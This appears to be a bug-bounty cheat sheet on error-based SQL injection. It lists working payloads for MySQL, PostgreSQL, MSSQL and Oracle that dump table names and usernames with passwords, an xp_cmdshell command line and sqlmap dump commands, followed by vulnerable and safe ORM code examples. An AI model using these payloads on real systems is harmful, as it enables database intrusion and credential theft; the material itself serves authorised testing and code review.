

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/SQLi/Error-Based

# Error-Based SQL Injection

Error-based is the fastest path to data extraction  -  the database literally tells you what you asked. If I get a raw DB error in the response, I skip straight here before messing with blind techniques.

## Confirming the Injection

```sql
-- Inject a syntax error and look for DB error messages
'
''
' AND EXTRACTVALUE(1,1)--
```

If you see something like `You have an error in your SQL syntax near...` or `ORA-00933: SQL command not properly ended`  -  you're in business.

## MySQL  -  Extraction via Error

### EXTRACTVALUE

```sql
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT version()),0x7e))--
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT user()),0x7e))--
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT database()),0x7e))--
 
-- Dump table names
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e))--
 
-- Dump column names
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),0x7e))--
 
-- Dump data
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT CONCAT(username,0x3a,password) FROM users LIMIT 0,1),0x7e))--
```

### UPDATEXML

```sql
' AND UPDATEXML(1,CONCAT(0x7e,(SELECT version()),0x7e),1)--
' AND UPDATEXML(1,CONCAT(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()),0x7e),1)--
```

### GROUP BY / FLOOR (older MySQL)

```sql
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

## PostgreSQL  -  Extraction via Error

### CAST Type Error

```sql
' AND CAST((SELECT version()) AS int)--
-- Returns: invalid input syntax for integer: "PostgreSQL 14.2..."
 
' AND 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS int)--
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

### `pg_input_is_valid` (PostgreSQL 16+)

Newer error functions. But CAST is reliable across all versions.

## MSSQL  -  Extraction via Error

### `CONVERT` / `CAST`

```sql
' AND CONVERT(int,(SELECT TOP 1 name FROM sysobjects WHERE xtype='U'))--
' AND 1=CONVERT(int,(SELECT TOP 1 table_name FROM information_schema.tables))--
' AND 1=CONVERT(int,db_name())--
' AND 1=CONVERT(int,user_name())--
 
-- Dump credentials
' AND 1=CONVERT(int,(SELECT TOP 1 CONCAT(username,':',password) FROM users))--
```

### Stacked Queries (MSSQL allows by default)

```sql
'; SELECT name FROM sysobjects WHERE xtype='U'--
'; EXEC xp_cmdshell('whoami')--  -- if xp_cmdshell is enabled
```

## Oracle  -  Extraction via Error

```sql
' AND 1=UTL_INADDR.GET_HOST_ADDRESS((SELECT banner FROM v$version WHERE ROWNUM=1))--
 
-- CTXSYS.DRITHSX.SN  -  produces error with data
' AND 1=CTXSYS.DRITHSX.SN(user,(SELECT banner FROM v$version WHERE ROWNUM=1))--
 
-- XMLType
' AND (SELECT UPPER(XMLType(CHR(60)||CHR(58)||(SELECT banner FROM v$version WHERE ROWNUM=1)||CHR(62))) FROM dual)--
```

## Extraction Strategy  -  Step by Step



### MySQL Full Extraction Flow

```sql
-- 1. Version
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT version())))--
 
-- 2. Current DB
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT database())))--
 
-- 3. All tables (group_concat for multiple)
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT group_concat(table_name SEPARATOR ',') FROM information_schema.tables WHERE table_schema=database())))--
 
-- 4. Columns in users table
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='users')))--
 
-- 5. Dump creds (first row)
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT CONCAT(username,0x3a,password) FROM users LIMIT 0,1)))--
 
-- 6. Next row  -  increment OFFSET
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT CONCAT(username,0x3a,password) FROM users LIMIT 1,1)))--
```

## EXTRACTVALUE Length Limit

EXTRACTVALUE truncates at 32 characters. For longer values:

```sql
-- Use SUBSTR to paginate
' AND EXTRACTVALUE(1,CONCAT(0x7e,SUBSTR((SELECT password FROM users LIMIT 0,1),1,32)))--
' AND EXTRACTVALUE(1,CONCAT(0x7e,SUBSTR((SELECT password FROM users LIMIT 0,1),33,32)))--
```

## sqlmap Error-Based Mode

```bash
# Force error-based technique
sqlmap -u "https://target.com/item?id=1" --technique=E --dbs --batch
 
# Dump specific table
sqlmap -u "https://target.com/item?id=1" --technique=E -D mydb -T users --dump --batch
```

## ORM-Specific Patterns

ORMs reduce raw SQL but they all have escape hatches  -  the places developers reach for when the ORM doesn't support the query they need. Those escape hatches are injection sinks.

### Prisma

Prisma's `$queryRaw` and `$executeRaw` accept template literals, which are safe. The danger is when developers concatenate strings instead:

```typescript
// Safe  -  tagged template, parameterised automatically
const result = await prisma.$queryRaw`SELECT * FROM users WHERE id = ${userId}`;
 
// Vulnerable  -  string concatenation bypasses parameterisation
const result = await prisma.$queryRaw(
  `SELECT * FROM users WHERE name = '${userName}'`
);
 
// Also vulnerable
const query = Prisma.sql([`SELECT * FROM users WHERE name = '${userName}'`]);
```

Look for `$queryRawUnsafe`  -  this is Prisma's explicit unsafe method and is a direct injection sink regardless of input handling:

```typescript
// $queryRawUnsafe passes the string directly to the database
await prisma.$queryRawUnsafe(`SELECT * FROM users WHERE id = ${id}`);
```

### Sequelize

Sequelize's `literal()` and `query()` functions are the equivalent escape hatches:

```javascript
// Vulnerable  -  literal() passes raw SQL
Model.findAll({
    where: sequelize.literal(`name = '${userInput}'`)
});
 
// Vulnerable  -  query() with string concatenation
sequelize.query(`SELECT * FROM users WHERE email = '${email}'`);
 
// Safe  -  replacements array
sequelize.query('SELECT * FROM users WHERE email = ?', {
    replacements: [email]
});
```

### SQLAlchemy (Python)

SQLAlchemy's `text()` construct is safe when bound parameters are used, vulnerable when formatted:

```python
# Vulnerable
db.execute(f"SELECT * FROM users WHERE name = '{name}'")
db.execute(text(f"SELECT * FROM users WHERE name = '{name}'"))
 
# Safe
db.execute(text("SELECT * FROM users WHERE name = :name"), {"name": name})
```

Also watch for `engine.execute()` with raw strings in older SQLAlchemy versions (1.x).

### knex

knex's `.raw()` method is the sink:

```javascript
// Vulnerable
knex.raw(`SELECT * FROM users WHERE id = ${id}`)
 
// Safe  -  binding syntax
knex.raw('SELECT * FROM users WHERE id = ?', [id])
knex.raw('SELECT * FROM users WHERE name = :name', { name: userName })
```

When reviewing Node.js apps, grep for `.raw(` and check every call for string interpolation.

## GraphQL Resolver Sinks

Error-based SQLi via GraphQL is under-tested. The GraphQL layer obscures the fact that a resolver is building raw SQL from the variable you supply.

**How to spot it:**

1. Send a GraphQL query with a syntactically invalid value in a string variable
2. Look for database error messages in the `errors` array of the response

```graphql
query {
  user(id: "1'") {
    name
    email
  }
}
```

Response revealing injection:

```json
{
  "errors": [{
    "message": "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version near ''1''' at line 1"
  }]
}
```

Once confirmed, the extraction technique is identical to standard error-based SQLi  -  the delivery mechanism is just a GraphQL variable instead of a URL parameter.

**Introspection + injection**  -  if introspection is enabled, enumerate all types and their fields. Test each input argument on every mutation and query that accepts a string or integer type. Automation: feed the introspection schema into a script that generates test queries for every input field.

GraphQL often has resolvers for search, filter, and sort operations  -  these are the most likely to be building raw SQL because the developer needed dynamic column or order logic that the ORM couldn't handle cleanly.

## Checklist

- Inject `'` and `''` in every parameter; look for raw SQL errors in the response
- For MySQL: test EXTRACTVALUE and UPDATEXML payloads
- For PostgreSQL: test CAST to int error technique
- For MSSQL: test CONVERT/CAST and stacked queries
- For Oracle: test UTL_INADDR and CTXSYS.DRITHSX.SN
- If errors are suppressed: fall back to [Blind](../../../../Attack-Surface/Web/Injection/SQLi/Blind) techniques
- Review app tech stack for ORM usage and grep source for raw query escape hatches
- For Node.js: grep for `.raw(`, `literal(`, `$queryRawUnsafe`
- For Python: grep for `f"SELECT`, `text(f"`, `engine.execute(`
- For GraphQL: test string variables with syntax errors and inspect the `errors` array
- Use sqlmap `--technique=E` to automate extraction once error-based is confirmed

## Public Reports

- Error-based SQLi in Gitlab via snippet search parameter - [HackerOne #297478](https://hackerone.com/reports/297478)
- SQL injection in HackerOne's search via error-based extraction - [HackerOne #311912](https://hackerone.com/reports/311912)
- Error-based SQLi on U.S. DoD asset via search endpoint - [HackerOne #507139](https://hackerone.com/reports/507139)
- MySQL error-based injection via GraphQL input field - [HackerOne #1218720](https://hackerone.com/reports/1218720)

## See Also

- [SQLi Overview](../../../../SQLi/)
- [Blind](../../../../Attack-Surface/Web/Injection/SQLi/Blind)  -  when errors are suppressed
- [Second-Order](../../../../Attack-Surface/Web/Injection/SQLi/Second-Order)
- [SSTI](../../../../Attack-Surface/Web/Injection/SSTI)  -  separate injection class, similar ORM-escape-hatch hunting pattern
